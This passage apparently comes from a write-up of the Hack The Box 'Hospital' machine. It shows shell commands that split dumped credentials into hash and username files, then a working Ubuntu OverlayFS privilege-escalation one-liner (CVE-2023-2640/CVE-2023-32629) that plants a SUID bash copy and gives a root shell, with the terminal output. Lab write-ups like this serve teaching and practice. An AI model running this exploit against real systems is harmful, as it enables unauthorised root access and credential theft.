 I stored these data in `credentials.txt` file then extracted the hashes from decryption into another file and the usernames in another file like this :  
```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Hospital]
└─$ cat credentials.txt| cut -d '|' -f 4 | sed "s/ //g" > hashes.txt
```
{: .nolineno}
and the usernames like this ⏬
```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Hospital]
└─$ cat credentials.txt| cut -d '|' -f 3 | sed "s/ //g" > usernames.txt
   
┌──(kali🔥kali)-[~/Downloads/HTB/Hospital]
└─$ cat usernames.txt 
admin
patient
harlock
regis
...
...
```
{: .nolineno}
I checked the kernel version and on web I found this version is vulnerable to this `CVE-2023-2640` & `CVE-2023-32629` and so I tried these CVE's exploit from here ⏬
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/
I got this code working fine ⏬
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```
{: .nolineno}
I tried on this system and I got this result 🔽
![Image](Pasted%20image%2020240219163645.png)
_The command of id as root user is working_
Lets try to get the root shell with making the bash with SUIDs permission : 
```bash
www-data@webserver:/dev/shm$ unsharunshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"cp /bin/bash /var/tmp/dash && chmod 4755 /var/tmp/dash && /var/tmp/dash -p && rm -rf l m u w /var/tmp/dash\")'"
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
> setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"cp /bin/bash /var/tmp/dash && chmod 4755 /var/tmp/dash && /var/tmp/dash -p && rm -rf l m u w /var/tmp/dash\")'"
dash: /root/.bashrc: Permission denied
root@webserver:/dev/shm# whoami
whoami
root
root@webserver:/dev/shm# 
root@webserver:/dev/shm# cd /root
cd /root
dash: cd: /root: Permission denied
root@webserver:/dev/shm# id
id
uid=0(root) gid=0(root) groups=0(root)
root@webserver:/dev/shm# cd /root/
cd /root/
dash: cd: /root/: Permission denied
root@webserver:/dev/shm# ls -al /var/tmp/dash
ls -al /var/tmp/dash
-rwsr-xr-x 1 root root 1437832 Feb 19 18:23 /var/tmp/dash
root@webserver:/dev/shm#
```
{: .nolineno}